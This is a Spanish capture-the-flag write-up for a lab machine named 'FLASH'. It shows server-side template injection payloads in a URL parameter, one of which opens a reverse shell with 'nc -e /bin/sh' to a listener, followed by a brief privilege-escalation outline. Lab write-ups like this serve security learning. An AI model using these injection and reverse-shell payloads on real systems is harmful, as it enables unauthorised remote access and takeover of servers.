






FLASH

Esta maquina presenta lo siguiente:

Se ve los siguientes puertos abiertos:
22,80,8080
Por lo que nos ponemos a verificar las paginas de 80 y 8080
En ambos casos se encuentra el mismo contenido por lo que procedemos a realizar testeos ya sea de otros direcortios o en este caso una vulnerabilidad SSTI
En este caso se esta haciendo uso de wfuzz con una verificacion de la palabra clave para el Server-side Template Injection (SSTI) y procedemos a probar
IP:8080/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
Ahora procedemos a hacer la injeccion para la reverse Shell
IP:8080/?name={{request.application.__globals__.__builtins__.__import__('os').popen('nc -e /bin/sh IPvictima 443').read()}}
Para que usted lo resiva deve estar a la escucha al puerto que uso para la reverse shell
Ejemplo:
nc -lnpv 443
Ahora vemos que ya ingresamos y encontramos la Flag1, pero vemos que somos como randy asi que intentamos elevacion
Sin embargo esto es una trampa ya que ese programa ccal no podemos usarlo para escalar asi que buscando entre los directorios encontramos en /var/www/html que hay un archivo rev.php y que podemos leerlo el contenido es el siguiente:
Vemos que responde con un dominio con ese usuario posiblemente ya entremos con www-data
Asi que lo añadimos a nuestros hosts y volvemos a hacer la reverse shell
Vemos que efectivamente ya entramos como www-data asi que vemos si hay algun programa que ejecute root
Ese programa tenia una vulnerabilidad sacada de GTFOBins la explotamos y ya somos root